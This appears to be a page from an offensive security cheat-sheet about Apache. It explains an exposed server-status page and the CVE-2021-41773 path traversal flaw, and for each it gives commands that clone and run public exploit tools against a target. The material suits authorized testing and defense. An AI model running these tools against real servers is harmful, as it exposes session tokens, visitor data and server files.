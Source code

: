 # 🐦 Apache

## Server Status

Apache server-status is an **Apache monitoring instance** Available by default at `http://$target/server-status`

In normal cases, the server-status instance is **not accessible by non-local IPs**. However, due to **misconfiguration**, it can be publicly accessible. **This leads anyone to view the great amount of data by server-status.**

### Data exposed

* All URL requested by all hosts/vhosts, including obscure files/directories and session tokens
* All requested client's IPs

### Exploiting it

```bash
# install
git clone https://github.com/mazen160/server-status_PWN.git
cd server-status_PWN
pip3 install -r requirements

# exploit
python3 server-status_PWN.py --url 'http://$target/server-status'
```

## CVE-2021-41773

{% hint style="info" %}
A flaw was found in a change made to path normalization in Apache HTTP Server **2.4.49-2.4.50**.

An attacker could use a path traversal attack to map URLs to files outside the expected document root. If files outside of the document root are not protected by "require all denied" these requests can succeed. Additionally this flaw could leak the source of interpreted files like CGI scripts.

This issue only affects **Apache 2.4.49 & 2.4.50** and not earlier versions.
{% endhint %}

```bash
# install
git clone https://github.com/iilegacyyii/PoC-CVE-2021-41773.git
cd PoC-CVE-2021-41773/
python3 CVE-2021-41773.py --host https://$target
```
